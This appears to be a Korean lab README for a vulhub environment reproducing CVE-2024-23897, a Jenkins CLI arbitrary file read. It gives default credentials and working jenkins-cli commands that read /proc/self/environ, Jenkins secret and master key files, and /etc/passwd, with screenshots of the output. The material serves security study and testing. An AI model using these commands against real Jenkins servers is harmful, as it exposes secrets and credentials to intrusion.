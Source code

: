 # CLI를 이용한 Jenkins 임의 파일 읽기 취약점(CVE-2024-23897)


Jenkins는 오픈소스로 지속적 통합 서비스를 제공하는 도구입니다.(자동화 서버)입니다.
Jenkins에서는 [args4j library](https://github.com/kohsuke/args4j)를 사용하여 CLI 명령을 처리할 때 Jenkins 컨트롤러의 명령 인수와 옵션을 구문 분석합니다. 
이 명령 구문 분석기 @에는 인수의 문자와 파일 경로를 파일 내용(expandAtFiles)로 바꾸는 기능이 있어 공격자가 Jenkins 서버에서 임의의 파일을 읽도록 유도합니다.

Jenkins 버전은 2.441 이고 이전 버전에 모두 영향을 미칩니다.

참고 자료 :
- <https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897>
- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약한 환경 시작
docker-compose.yml 가 존재하는 디렉토리에서

```
docker compose up -d
```
이후
'http://your-ip:8080/' 서버가 시작된 이후에 jenkins 서버에 접속할 수 있습니다. 기본 관리자 사용자 이름과 비밀번호는 'admin'과 'vulhub'입니다.

## 익스플로잇
먼저 'jenkins-cli.jar' 파일을 다운로드 합니다. 'http://localhost:8080/jnlpJars/jenkins-cli.jar'


파일을 읽어 '/pro/self/environ' Jenkins 기본 디렉토리를 가져옵니다. 'JENKINS_HOME=/var/jenkins_home'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```
<img width="452" alt="1" src="https://github.com/dhsgud/jenkins/assets/61280812/058305eb-ae95-4501-b061-5279f608bdd9">

다음 'secret.key' 또는 'master.key'와 같은 중요한 파일을 검색하는데 사용할 수 있습니다.(명령줄 오류를 통해 파일의 첫 번째 줄만 읽을 수 있습니다.):

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```
<img width="452" alt="2" src="https://github.com/dhsgud/jenkins/assets/61280812/8746beab-e932-4e61-b3bf-fab4f8fefa19">

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```
<img width="452" alt="3" src="https://github.com/dhsgud/jenkins/assets/61280812/22c07fdc-6f35-44c0-9f77-631e84637e56">

"익명 읽기 액세스 허용"이 설정되어 있으므로 파일의 전체 내용을 읽을 수도 있습니다 :

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

<img width="452" alt="4" src="https://github.com/dhsgud/jenkins/assets/61280812/064d1f0e-a72a-4a69-b2f2-939439aaa379">
